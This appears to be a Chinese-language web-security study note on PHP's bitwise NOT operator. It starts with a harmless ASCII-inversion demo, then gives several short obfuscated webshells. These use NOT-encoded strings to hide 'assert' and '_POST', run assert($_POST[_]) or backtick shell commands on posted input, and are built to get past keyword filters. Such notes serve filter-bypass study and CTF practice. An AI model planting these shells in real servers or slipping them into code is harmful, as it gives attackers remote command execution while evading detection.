


取反运行
在PHP中，取反运算符 `~` 会对数值的二进制位进行翻转：
- `0` → `1`
- `1` → `0`
```php
<?php  
$a = 'a';  
echo "原始字符: " . $a . "\n";  
echo "ASCII码: " . ord($a) . "\n";  
echo "十六进制: " . bin2hex($a) . "\n";  
echo "二进制: " . base_convert(bin2hex($a), 16, 2) . "\n";  
  
// 正确的取反操作  
$ascii = ord($a);  
$not_ascii = ~$ascii;  
echo "取反ASCII: " . $not_ascii . "\n";  
echo "取反后字符: '" . chr($not_ascii) . "超出了ASCII的范围了ASCII最大7E"."'\n";  
echo "取反十六进制: " . dechex($not_ascii & 0xFF) . "\n";  
?>

输出：

原始字符: a
ASCII码: 97
十六进制: 61
二进制: 1100001
取反ASCII: -98
取反后字符: '�超出了ASCII的范围了ASCII最大7E'
取反十六进制: 9e
```
==取反脚本从橙子科技镜像里获取==
```php
assert适用php5

<?php
# assert($_POST[_])
$_='assert';
$__='_POST';
$___=$$__;
$_($___[_]);
?>


<?php
# assert($_POST[_])
#assert 取反并url编码得%9e%8c%8c%9a%8d%8b
$_=~("%9e%8c%8c%9a%8d%8b");
$__=~("%a0%af%b0%ac%ab");
$___=$$__;
$_($___[_]);
?>
```

无需url编码
```php
反引号``适用php7
<?php
# `$_POST[_]`
$__=~("%a0%af%b0%ac%ab");
$___=$$__;
`$___[_]`;
?>
```
